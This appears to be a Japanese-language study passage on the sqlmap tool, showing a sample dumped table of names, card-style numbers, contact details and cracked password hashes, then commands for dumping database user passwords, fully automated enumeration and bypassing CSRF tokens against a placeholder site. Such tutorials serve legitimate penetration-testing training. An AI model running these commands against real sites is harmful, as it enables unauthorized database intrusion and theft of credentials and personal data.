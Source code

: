 ```shell-session
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |
```

### DBユーザーのパスワード列挙とクラック
- DB内の通常テーブルだけでなく、システム的な認証情報（例：MySQLのuserテーブル）も狙える
- その専用オプションとして、`--passswords`がある
```shell-session
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

Tips: 自動フル列挙
- もしすべての情報を完全自動で取得したいなら、--all --batch のコンビネーションを使うことで、SQLMapが総当たりでやってくれる
```sh
sqlmap -u "http://www.example.com/?id=1" --all --batch
```
- ただし、対象が大きいと非常に長時間かかる可能性ある
- 出力ファイルの中から目的の情報を手動で確認する必要がある

## WebappのProtectionを回避する
###  CSRFトークンのバイパス
- 自動化を防ぐ最初の防御線の1つが、CSRF（クロスサイトリクエストフォージェリ）トークンの導入
	- フォーム送信時など、**全HTTPリクエストにトークンを付与**して正規の利用かを判断する
- こうしたトークンはページを実際に開かないと取得できないため、自動ツールからのリクエストは弾かれがち

**回避方法**
`--csrf-token`オプションで回避できる
```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```
